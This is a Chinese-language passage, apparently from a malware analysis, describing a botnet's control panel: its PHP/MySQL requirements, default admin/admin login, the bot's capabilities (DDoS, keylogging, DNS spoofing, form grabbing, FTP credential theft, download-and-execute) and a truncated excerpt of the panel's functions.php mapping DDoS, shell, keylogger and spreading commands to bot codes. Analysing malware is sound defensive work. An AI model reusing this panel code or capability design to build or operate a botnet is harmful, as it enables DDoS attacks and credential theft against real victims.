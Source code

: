 ![enter image description here](http://drops.javaweb.org/uploads/images/1bc0f441a3c46295fd8f4de6a2ed9a29c9899e0c.jpg)

安装面板所需的软件：

*   PHP
*   MySQL，版本号不得低于5.6。

面板的默认登录名和口令：**admin**，**admin**。

被感染的客户端可以根据要求而执行的任务：

*   各种类型的DDoS攻击。
*   键盘记录（启用/禁用）功能，包括指定窗口内的轨迹文本。
*   查找指定类型的文件。
*   更新bot。
*   删除bot。
*   DNS欺骗（将地址X重定向到地址Y）。
*   Form表单截取，窃取FTP证书。
*   下载并执行下列类型的文件（EXE、DLL、、bat 、vbs）。
*   向Windows注册表添加指定内容。

发送给bot的完整命令列表：

functions.php

```
function EncodeCommand($command)
{
    switch (strtolower($command)) {
        case "http ddos":
            return "http";
            break;
        case "https ddos":
            return "https";
            break;
        case "slowloris ddos":
            return "slow";
            break;
        case "smart http ddos":
            return "smart";
            break;
        case "download flood":
            return "dwflood";
            break;
        case "udp ddos":
            return "udp";
            break;
        case "tcp ddos":
            return "tcp";
            break;
        case "find file":
            return "findfile";
            break;
        case "cmd shell":
            return "cmd";
            break;
        case "keylogger":
            return "keylogger";
            break;
        case "spreading":
            return "spread";
            break;
        case "update":
            return "update";
            break;
        case "loader":
            return "loader";
```